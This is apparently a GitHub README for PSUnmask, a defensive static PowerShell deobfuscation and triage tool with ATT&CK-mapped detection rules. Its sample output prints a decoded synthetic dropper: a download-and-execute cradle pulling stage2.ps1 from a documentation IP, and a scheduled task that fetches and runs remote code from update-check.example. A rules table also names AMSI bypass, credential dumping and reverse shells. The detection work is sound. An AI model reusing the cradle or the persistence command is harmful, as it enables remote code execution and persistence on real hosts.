

# PSUnmask

🇫🇷 [Version française](README.fr.md)

**Static PowerShell deobfuscation and triage for SOC analysts.**
Paste a suspicious command line (or feed a Sysmon / 4688 / 4104 export) and get the decoded script, every obfuscation layer, extracted IOCs, MITRE ATT&CK mapping, parent-process context and a verdict with evidence.

    

> Decoding is reading. **PSUnmask never executes the content it analyses.** There is no `eval`, `exec`, `subprocess` or `ctypes` anywhere in the package, and a unit test fails the build if one appears.

---

## Why this exists

Encoded PowerShell is one of the most common things a SOC analyst meets in an alert queue: loaders, fileless cradles, red-team tooling, and also legitimate admin scripts. The analyst's job is to answer one question fast: **malicious, or admin, and what is the evidence?**

PSUnmask turns the manual workflow (copy the blob, CyberChef, squint at the parent process, write a ticket) into one command, following a four-step method:



| Step | What PSUnmask does |
|---|---|
| **Catch it** | Reads Sysmon Event ID 1, Security 4688 and PowerShell 4104 (multi-part script blocks are reassembled) from `.xml`, `.evtx` or plain text |
| **Decode it** | `-e/-ec/-enc/-EncodedCommand` (Base64 UTF-16LE), `FromBase64String` + Deflate/Gzip, string concatenation, backticks, `[char]` codes, nested layers up to depth 10 |
| **Trace it** | Scores the parent process (Office, script hosts, WMI, IIS vs SCCM/Intune agents) and obfuscation depth |
| **Call it** | `MALICIOUS` / `SUSPICIOUS` / `LIKELY_BENIGN`, matched rules with the layer they were found in, defanged IOCs, SHA-256 of the final script, recommended response |

## Quick start

```bash
git clone https://github.com/NikoRNK/PSUNMASK---malicious-powershell-catcher.git
cd PSUNMASK---malicious-powershell-catcher
pip install -e .            # zero runtime dependencies
pip install -e ".[evtx]"    # optional: read .evtx directly
```

### Decode one command

```bash
psunmask decode 'powershell -nop -w hidden -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBi...'
psunmask decode -f suspicious.txt --parent WINWORD.EXE
echo '<base64 blob>' | psunmask decode -
```

Real output on the bundled multi-layer sample (`samples/layered_dropper.txt`: Base64, then Deflate, then split strings):

```text
[1] MALICIOUS  score 100/100
    parent : C:\Windows\System32\wscript.exe
    CATCH IT  powershell -w hidden -nop -e SQBFAFgAIAAoAFsASQBPAC4AUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAXQA6ADoAbgBlAHcAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBDAG8Ab... (+1039 chars)
    DECODE IT original -> -EncodedCommand / Base64 (UTF-16LE) -> FromBase64String (+ inflate) -> string concatenation merge
      | $c = 'DownloadString'; $u = 'http://203.0.113.7/stage2.ps1'; $w = New-Object Net.WebClient; IEX ($w.$c($u)); schtasks /create /tn Updater /tr 'powershell -nop -w hidden -c iex(irm http://update-check.example/r)' /sc hourly
    TRACE IT  +25 parent wscript.exe: Windows Script Host spawned PowerShell; +10 3 obfuscation layers peeled
      - PS001 Encoded command [T1027.010] +10 (layer 0)
      - PS002 Invoke-Expression [T1059.001] +20 (layer 1)
      - PS003 Download cradle [T1105] +30 (layer 2)
      - PS004 Hidden window [T1564.003] +15 (layer 0)
      - PS005 NoProfile / NonInteractive [T1059.001] +5 (layer 0)
      - PS010 Scheduled task persistence [T1053.005] +25 (layer 2)
      - PS015 Staged / compressed payload [T1027] +10 (layer 1)
    IOCs (defanged)
      url: hxxp[://]203[.]0[.]113[.]7/stage2[.]ps1
      url: hxxp[://]update-check[.]example/r
      ip: 203[.]0[.]113[.]7
      domain: update-check[.]example
    CALL IT   MALICIOUS  sha256(final)=b8d62aa44d78673b...

```

### Triage a log export

```bash
# Export from a Windows host (see docs/lab-setup.md)
wevtutil qe Microsoft-Windows-Sysmon/Operational /q:"*[System[(EventID=1)]]" /f:xml /c:500 > sysmon.xml

psunmask triage sysmon.xml                              # ranked findings in the terminal
psunmask triage sysmon.xml --markdown report.md         # incident note, ready for the ticket
psunmask triage sysmon.xml --json report.json           # structured output for SOAR / SIEM
psunmask triage sysmon.xml --min-score 50 --fail-on-malicious   # exit code 2 if malicious found
```

A full generated incident note is in [`docs/example-report.md`](docs/example-report.md).

### Use as a library

```python
from psunmask.analyzer import analyse
from psunmask.models import Event

finding = analyse(Event("demo", command_line=cmdline, parent_image=r"C:\...\WINWORD.EXE"))
print(finding.verdict, finding.score, finding.techniques)
print(finding.result.final)          # decoded script
print(finding.iocs["urls"])          # extracted indicators
```

## Detection coverage

Rules run on **every** decoded layer, so a cradle hidden three layers deep is still found. Weights are additive (capped at 100), `>= 50` is `MALICIOUS`, `>= 20` is `SUSPICIOUS`.

| ID | Detection | Weight | Tactic | ATT&CK |
|----|-----------|-------:|--------|--------|
| PS001 | Encoded command | 10 | Defense Evasion | [T1027.010](https://attack.mitre.org/techniques/T1027/010/) |
| PS002 | Invoke-Expression | 20 | Execution | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) |
| PS003 | Download cradle | 30 | Command and Control | [T1105](https://attack.mitre.org/techniques/T1105/) |
| PS004 | Hidden window | 15 | Defense Evasion | [T1564.003](https://attack.mitre.org/techniques/T1564/003/) |
| PS005 | NoProfile / NonInteractive | 5 | Execution | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) |
| PS006 | Execution policy bypass | 10 | Defense Evasion | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) |
| PS007 | AMSI bypass | 40 | Defense Evasion | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) |
| PS008 | Reflective / in-memory loading | 25 | Defense Evasion | [T1620](https://attack.mitre.org/techniques/T1620/) |
| PS009 | Credential dumping | 50 | Credential Access | [T1003.001](https://attack.mitre.org/techniques/T1003/001/) |
| PS010 | Scheduled task persistence | 25 | Persistence | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) |
| PS011 | Run key persistence | 25 | Persistence | [T1547.001](https://attack.mitre.org/techniques/T1547/001/) |
| PS012 | Defender tampering | 40 | Defense Evasion | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) |
| PS013 | Raw socket / reverse shell | 45 | Command and Control | [T1095](https://attack.mitre.org/techniques/T1095/) |
| PS014 | Inhibit system recovery | 50 | Impact | [T1490](https://attack.mitre.org/techniques/T1490/) |
| PS015 | Staged / compressed payload | 10 | Defense Evasion | [T1027](https://attack.mitre.org/techniques/T1027/) |
| PS016 | WMI remote execution | 20 | Execution | [T1047](https://attack.mitre.org/techniques/T1047/) |
| PS017 | Exfiltration primitives | 25 | Exfiltration | [T1041](https://attack.mitre.org/techniques/T1041/) |


Context signals: suspicious parents (Office +30, script hosts / LOLBins +25, IIS +40), management-agent parents (SCCM / Intune -15), 3+ obfuscation layers (+10), non-text payload decoded (+20). Run `psunmask rules` to list them.

## Detection engineering

Triage only helps once. Each finding feeds a detection:

- [`rules/`](rules): Sigma rules (encoded command, Office spawns PowerShell, download cradle in Script Block Logging)
- [`detections/splunk.spl`](detections/splunk.spl) and [`detections/kql.kql`](detections/kql.kql): hunting queries for Splunk and Defender XDR / Sentinel
- [`docs/detection-engineering.md`](docs/detection-engineering.md): tuning checklist and Sigma conversion

## Documentation

| Doc | Content |
|---|---|
| [`docs/investigation-playbook.md`](docs/investigation-playbook.md) | The Catch / Decode / Trace / Call method, parent-process cheat sheet, ticket template |
| [`docs/lab-setup.md`](docs/lab-setup.md) | Sysmon, Script Block Logging, 4688 auditing, harmless test telemetry in an isolated VM |
| [`docs/detection-engineering.md`](docs/detection-engineering.md) | From analysis to Sigma, SPL and KQL |

## Project layout

```text
psunmask/
  decoder.py       Base64 / UTF-16LE / inflate primitives (bomb-guarded, 10 MB cap)
  deobfuscate.py   layered unwrapping engine
  rules.py         ATT&CK-mapped detections + parent-process context
  analyzer.py      scoring, verdict, IOC enrichment
  iocs.py          URL / IP / domain / registry / path extraction + defanging
  parsers.py       Sysmon 1, 4688, 4104 (XML, EVTX, text)
  report.py        console, Markdown, JSON
  cli.py           decode | triage | rules
rules/             Sigma rules
detections/        Splunk SPL, KQL
samples/           synthetic telemetry (RFC 5737 IPs, .example domains)
tests/             33 tests incl. an AST guard that forbids execution primitives
tools/make_samples.py   regenerates the samples
```

## Safety design

- **Static only.** No evaluation of PowerShell, no process spawning, no network access. Enforced by `tests/test_never_executes.py`.
- **Decompression bombs** are capped at 10 MB per layer; layer depth is capped.
- **XML hygiene.** DTDs and entities in event files are rejected.
- **Defanged output.** IOCs print as `hxxp[://]198[.]51[.]100[.]23` so they cannot be clicked by accident.
- **Samples are synthetic and non-functional**: documentation IP ranges and `.example` domains only.

## Validation status and limitations

Being explicit, because honesty matters in this field:

- Validated on **synthetic samples** and unit tests built from the techniques above. It has **not** been benchmarked against a large corpus of real-world malware, so expect gaps.
- Regex-based, not a PowerShell AST. Not yet handled: the `-f` format operator, `-replace` chains, string reversal, `SecureString` payloads, XOR loops, variable-indirection cradles.
- Scores are heuristics meant to **prioritise analyst attention**, not to replace judgement. A `LIKELY_BENIGN` verdict is not a clearance.
- Rules are tuned for generic enterprise noise; allow-list your own management tooling.

## Roadmap

- [ ] AST-based deobfuscation (format operator, `-replace`, reversal, XOR)
- [ ] Sysmon events 3 / 11 / 13 correlation by `ProcessGuid` (network, files, persistence)
- [ ] JSONL / Elastic / Splunk export ingestion
- [ ] YARA output for decoded stage-2 payloads
- [ ] VirusTotal / MISP enrichment (opt-in, hash and IOC lookups only)

## Development

```bash
pip install -e ".[dev]"
pytest -q
ruff check psunmask
python tools/make_samples.py     # regenerate samples
```

CI runs the tests on Python 3.9 to 3.12 and smoke-tests the bundled samples.

## References

- MITRE ATT&CK: [T1059.001 PowerShell](https://attack.mitre.org/techniques/T1059/001/), [T1027.010 Command Obfuscation](https://attack.mitre.org/techniques/T1027/010/), [T1105 Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- Microsoft: PowerShell Script Block Logging, AMSI
- Sysmon (Sysinternals), Sigma rule format, CyberChef

## License

MIT. Built by Nikola Rankovic as a blue-team portfolio project (SOC analyst track, cybersecurity).
